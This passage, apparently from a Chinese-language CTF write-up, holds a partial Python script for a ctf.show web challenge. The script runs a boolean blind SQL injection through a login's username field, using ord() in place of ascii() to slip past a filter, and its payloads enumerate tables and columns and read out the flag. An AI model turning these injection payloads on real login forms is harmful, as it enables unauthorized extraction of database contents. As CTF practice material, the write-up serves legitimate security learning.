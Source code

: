 ord() 函数

<img src="图片\Snipaste_2023-01-25_16-36-46.png" alt="Snipaste_2023-01-25_16-36-46" style="zoom:80%;" />

```python
# @Author:Y4tacker
import requests

url = "http://c2ebf0f6-e291-40cc-a7c4-779e36f8e694.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            # 'username': f"admin' and if(ascii(substr(({payload}),{i},1))>{mid},1,2)='1",  # web190
            'username': f"admin' and if(ord(substr(({payload}),{i},1))>{mid},1,2)='1",     # web191
            'password': '1'
        }
```